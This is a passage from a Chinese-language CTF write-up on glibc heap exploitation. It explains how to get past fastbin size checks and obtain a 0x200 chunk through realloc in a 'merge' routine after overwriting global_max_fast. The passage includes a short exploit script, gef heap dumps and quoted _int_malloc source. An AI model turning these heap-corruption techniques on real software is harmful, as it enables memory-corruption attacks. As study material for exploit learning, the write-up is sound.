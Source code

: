 当请求的size为0x200的时候，fastbin 对应的fd是存在值的，所以会执行`if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))`，相当于会去检查这个指针指向的chunk size，由于这个是个我们不能控制的值，所以不能通过校验，因此通过单纯的创建节点的逻辑调用calloc得到一个符合fastbin 大小的chunk是不能通过的。

因此我们要试验，如何能够通过merge逻辑调用realloc得到一个符合大小的chunk。

### <a class="reference-link" name="%E9%80%9A%E8%BF%87realloc%E5%BE%97%E5%88%B0%E4%B8%80%E4%B8%AA0x200%E5%A4%A7%E5%B0%8F%E7%9A%84chunk"></a>通过realloc得到一个0x200大小的chunk

尝试通过分配0x100的chunk，然后merge，发现在insert(0xf0)的时候同样会不能通过fast chunk的size校验，原因是同样，但是我们可以在修改global_max_fast之前就分配这个。然后等到修改完后再尝试merge。<br>
对应的exp代码

```
insert(0x20, "A" * 0x1f)  # 0
insert(0x20, "B" * 0x1f)  # 1
merge(0, 0)            
insert(0xf0,"G"*0xef)    # 3
```

我们在第一次merge之后，修改max_fast之前申请一个0x100的chunk，观察内存情况

```
gef➤  heap chunks
Chunk(addr=0x555555758010, size=0x90, flags=PREV_INUSE)
    [0x0000555555758010     f8 2b fc f7 ff 7f 00 00 f8 2b fc f7 ff 7f 00 00    .+.......+......]
Chunk(addr=0x5555557580a0, size=0x90, flags=)
    [0x00005555557580a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555555758130, size=0x100, flags=PREV_INUSE)
    [0x0000555555758130     47 47 47 47 47 47 47 47 47 47 47 47 47 47 47 47    GGGGGGGGGGGGGGGG]
Chunk(addr=0x555555758230, size=0x20de0, flags=PREV_INUSE)  ←  top chunk
```

可以看到此时我们的这个chunk确实是与top chunk紧邻的，这符合我们的预期的。

但是却发现，在我们分配这个0x100的大小的chunk之后，却导致原来在unsorted bin中的chunk被放到了small bin中了。这是因为merge之后,在unsorted bin上已经有一个元素了，而且我们新申请的这个0x100大小的chunk会触发从unsorted bin上回收chunk到对应的bin上的逻辑，libc中的对应源码

```
static void *
_int_malloc (mstate av, size_t bytes)`{`
          ...
          /* place chunk in bin */

          if (in_smallbin_range (size))
            `{`
              victim_index = smallbin_index (size);
              bck = bin_at (av, victim_index);
              fwd = bck-&gt;fd;
            `}`
          else
            `{`
              victim_index = largebin_index (size);
               ...

          mark_bin (av, victim_index);
          victim-&gt;bk = bck;
          victim-&gt;fd = fwd;
          fwd-&gt;bk = victim;
          bck-&gt;fd = victim;
```
